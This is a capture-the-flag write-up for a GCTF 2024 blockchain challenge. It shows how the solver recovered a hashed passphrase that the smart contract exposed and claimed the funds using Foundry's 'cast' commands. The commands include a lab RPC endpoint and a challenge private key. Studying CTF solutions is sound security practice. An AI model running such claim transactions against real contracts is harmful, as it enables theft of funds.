

repository: encient/encient.github.io · page: ctf/2024/gctf-2024/blockchain/allowance/index.html · generator: mkdocs

## Description
![](allowance1.png)
///caption
///

![](allowance2.png)
///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.


## Solution
![](allowance3.png) <br>   
At first to spawn up our instance, use the `curl` command given and get the token(?)  I'm not sure and input into the web app, then an instance will be spawned. <br>   
![](allowance4.png) <br>   
At first we get two files for this challenge which is the `setup.sol`, and `gurl.sol`. `gurl.sol` shows that a passphrase is needed, but it was hashed with keccak256, with the strings exposed to us "warlocksmurf wants your ethereum"  hence we can get the passphrase hash with
```bash {frame="none"}
cast keccak256 "warlocksmurf wants your ethereum"
```
The cast function is in foundry library so need to [install](https://github.com/foundry-rs) beforehand. <br>
Then the after job are all left to ChatGPT :P <br>   
The structure is:
```bash {frame="none"}
cast send --rpc-url <RPC_URL>  --private-key <Private_Key> \
<Gurl_Contract_Address> \
"claim(bytes32)" <CALCULATED_PASSPHRASE> --value 0.01ether
```

<Gurl_Contract_Address> can be retrieved with (if not mistaken)
```bash {frame="none"}
cast call --rpc-url <RPC_URL>  <Setup_Contract> "challengeInstance()"
```

Example:
```bash {frame="none"}
cast call --rpc-url "http://3.1.25.253:48334/c8f70cdf-531b-4a26-90aa-084f7a235268" 0x96C00Add89E8CfCf9A24ebaC87F451320e36109D "challengeInstance()"
```

Final payload:
```bash {frame="none"}
cast send --rpc-url "http://3.1.25.253:48334/c8f70cdf-531b-4a26-90aa-084f7a235268" --private-key "0x706a4b015198be83bb202233599aeeb05154df1c857fcbd8fed8dacb1f028113" \ 0xb9faff827508b69964f2d7d3b2cd8472b45a7d62 \
"claim(bytes32)" 0x664d69aa67c4e6ca7b6b9b5a6e89b9bd5ff0e22b21211b244d0f80dce07c1bf3 --value 0.01ether
```

![](allowance5.png)
